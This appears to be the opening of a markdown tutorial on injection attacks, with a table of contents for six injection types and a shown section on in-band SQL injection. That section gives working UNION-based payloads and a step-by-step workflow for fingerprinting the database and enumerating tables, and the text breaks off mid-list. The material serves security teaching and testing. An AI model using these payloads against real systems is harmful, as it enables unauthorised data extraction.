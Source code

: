 # Injection Attacks – A Practical Guide


## Table of Contents

1. [SQL Injection](#sql-injection)  
    
2. [NoSQL Injection](#nosql-injection)  
    
3. [XML External Entity (XXE) Injection](#xml-external-entity-xxe-injection)  
    
4. [SSTI (Server-side Template Injection)](#ssti-server-side-template-injection) 
    
5. [LDAP Injection](#ldap-injection)  
    
6. [Object-Relational Mapper (ORM) Injection](#object-relational-mapper-orm-injection)   


---
Injection flaws arise when user‑supplied data is concatenated into an interpreter context (SQL, XPath, LDAP, shell, template engine …) without sufficient validation. Exploitation typically lets an attacker:

- Read or alter sensitive data;
    
- Execute arbitrary commands on the underlying host;
    
- Pivot deeper into the internal network.

Although input validation, parameterised interfaces, and least‑privilege design solve the problem in principle, misconfigurations and legacy code keep injection firmly in the OWASP Top 10.
## 1  SQL Injection

SQL injection (SQLi) arises when untrusted data are concatenated into a database query so that part of the input is interpreted as SQL. When successful, an attacker can read or alter data well beyond their intended privilege.

### 1.1  In‑band SQLi

In‑band attacks return the stolen data through the same HTTP response.

```sql
-- Determine the number of columns
1' ORDER BY 3 -- -
-- UNION to test data extraction
1' UNION SELECT NULL,@@version,NULL -- -
```

**Typical workflow**

1. **Fingerprint** the DBMS:  
    `UNION SELECT NULL,@@version,NULL`
    
2. **List the current database**:  
    `UNION SELECT NULL,DATABASE(),NULL`
    
3. **Enumerate tables**:  
    `UNION SELECT NULL, GROUP_CONCAT(table_name), NULL FROM information_schema.tables WHERE table_schema = DATABASE()`
    